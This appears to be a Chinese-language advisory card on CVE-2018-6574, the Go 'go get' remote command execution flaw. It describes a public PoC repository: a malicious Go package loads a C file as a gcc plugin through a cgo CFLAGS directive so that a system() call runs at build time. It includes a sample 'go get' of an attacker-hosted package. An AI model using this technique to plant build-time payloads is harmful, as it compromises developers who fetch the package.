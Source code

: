 ## CVE-2018-6574 - Go "go get" 远程命令执行

**漏洞编号:** CVE-2018-6574

**漏洞类型:** 远程命令执行

**影响应用:** Go

**危害等级:** 高危，允许远程代码执行

**影响版本:** Go before 1.8.7, Go 1.9.x before 1.9.4, Go 1.10 pre-releases before Go 1.10rc2

**利用条件:** 受害者使用存在漏洞的Go版本，并使用`go get`命令获取恶意代码仓库。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2018-6574漏洞允许攻击者在受害者的系统上执行任意命令。攻击者可以通过创建一个包含恶意代码的Go包来实现这一点。当受害者使用`go get`命令获取并构建该包时，恶意代码将被执行。漏洞利用方式如下：

1.  **利用方式:**
    *   攻击者创建一个包含恶意`attack.c`和`main.go`文件的Go包。
    *   `attack.c` 文件包含在编译时执行系统命令的代码，例如，调用 `system("/usr/local/bin/score 173b6b3c-5d6a-4237-b67f-e97ff771ae51")`。
    *   `main.go` 文件使用 `// #cgo CFLAGS: -fplugin=./attack.so` 指令，指示 `go build` 使用 `attack.so` 作为 gcc 插件。这允许攻击者在构建过程中执行 `attack.c` 中的代码。
    *   攻击者将此Go包托管在公共代码仓库（例如GitHub）上。
    *   攻击者诱骗受害者使用 `go get` 命令获取并构建该恶意包。例如：`go get github.com/attacker/malicious_package`。
    *   当受害者执行 `go get` 命令时，`attack.c` 中的恶意代码将被执行，从而允许攻击者在受害者的系统上执行任意命令。

2.  **有效性:**
    *   提供的PoC代码有效。`attack.c`文件编译为共享库，并通过`main.go`中的`cgo`指令在构建时加载执行，从而实现远程命令执行。

3.  **投毒风险:**
    *   此仓库中未发现作者隐藏的投毒代码。该PoC的目的是演示漏洞利用，而不是在正常功能之外执行恶意行为。`attack.c` 中执行的 `system` 命令可以被修改为任何攻击者想要执行的命令，但目前的代码仅调用了一个看起来是用于获取分数的命令 `score`。 投毒风险为0%。

**项目地址:** [hasharmujahid/CVE-2018-6574-go-get-RCE](https://github.com/hasharmujahid/CVE-2018-6574-go-get-RCE)

**漏洞详情:** [CVE-2018-6574](https://nvd.nist.gov/vuln/detail/CVE-2018-6574)